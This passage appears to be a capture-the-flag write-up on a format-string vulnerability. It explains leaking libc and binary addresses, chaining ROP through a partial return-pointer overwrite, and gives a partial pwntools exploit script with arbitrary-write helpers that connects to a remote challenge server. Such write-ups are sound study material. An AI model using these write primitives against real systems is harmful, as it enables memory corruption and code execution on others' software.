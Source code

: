 Since this gadget is from the binary itself, the difference between memory addresses of `main+111` and this gadget is just of two LSB, which we can overwrite in one go. To summarize, here's our new strategy:
1. Leak values from [1] and `%13$#lX` and calculate libc base, binary base
2. Prepare the ROP chain
3. Write the ROP chain byte-by-byte at (SAVED RET POINTER) + 16.
4. Do a partial overwrite at SAVED RET POINTER with 2 LSB of `pop rbp ; ret` gadget from binary.

Now let's discuss the significance of `pop * ; ret`. Since our shellcode is below the current return pointer, it would practically never be executed unless we `ret` into it. However, simply calling `ret` would return into (SAVED RET POINTER) + 8, where the overwritten 0x00000002 lies. For obvious reasons that will crash the program and again our payload isn't executed. So we need to not only remove a value from the top of the stack but also return into next one. `pop rbp ; ret` serves as the perfect candidate here.
Once we overwrite SAVED RET POINTER our code execution will be redirected to `pop rbp`, that instruction will remove the value at the top of the stack ( which happens to be 0x00000002 ), the `RSP` now points to the start of our ROP chain. The subsequent `ret` instruction would just go about executing it.

So finally, here's the pwn script you have been waiting for
```py
from pwn import *

# [========== PWNTOOLS BOILERPLATE CODE ==========]
elf = ELF('./challenge')
context.binary = elf
context.log_level = 'Critical'
context(terminal=['tmux', 'split-window', '-h'])
libc = elf.libc
# p = elf.process()
p = remote('34.70.212.151', 8003)
libc = ELF('./libc.so.6')

# [========= PREPARE NECESSARY FUNCTIONS =========]
def arb_write_single(where, what):
    p.sendline(b'2')
    end = p64( where )
    end += b'****'
    payload = b''
    if what != 0:
        payload += ('%{}c'.format(what)).encode()
    payload += b'%8$hhn'
    payload += b'*' * (28 - len(payload) - len(end))
    payload += end
    p.sendafter(b'Enter input\n>> ', payload)
    p.recvuntil(b'3. Exit\n>> ')

def arb_write_double(where, what):
    p.sendline(b'2')
    end = p64( where )
    end += b'****'
    payload = b''
    if what != 0:
        payload += ('%{}c'.format(what)).encode()
    payload += b'%8$hn'
    payload += b'*' * (28 - len(payload) - len(end))
    payload += end
    p.sendafter(b'Enter input\n>> ', payload)

# [============== LEAK VIA OPTION 1 ==============]
p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'0x')
stack_leak = int( p.recvuntil(b' ').strip(), 16 )
libc_leak = int( p.recvline().strip(), 16 )

```